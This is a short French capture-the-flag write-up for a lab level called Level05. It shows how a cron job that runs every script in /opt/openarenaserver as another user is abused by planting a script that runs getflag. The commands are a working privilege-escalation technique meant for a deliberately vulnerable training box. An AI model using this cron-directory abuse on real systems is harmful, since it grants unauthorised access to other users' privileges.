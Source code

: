 # Level05

---

- En se connectant, on as un message pour indiquer que l'on as un mail,
	dans l'env, on trouve : MAIL=/var/mail

- Dans ce dossier, on trouve un fichier "level05" qui contient la ligne suivante:
>	\*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

- On reconnait une ligne de cron job qui lance un fichier /usr/sbin/openarenaserver
ce qui signifie qu'un job cron troune sur flag05 qui lance /usr/sbin/openarenaserver


- Ce fichier contient le code suivant:
```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```


- On creer un fichier dans /opt/openarenaserver/ avec la ligne:
> echo 'getflag > /tmp/flag' > /opt/openarenaserver/exploit && chmod +x /opt/openarenaserver/exploit && sleep 180 && cat /tmp/flag

au bout de 3 min le flag et ecrie dans le terminal

Alternativement, on peux ecrire ce script ainsi:
> - echo "getflag | wall" > /opt/openarenaserver/exploit && chmod +x /opt/openarenaserver/exploit
> - echo "getflag > /tmp/flag" > /opt/openarenaserver/exploit && chmod +x /opt/openarenaserver/exploit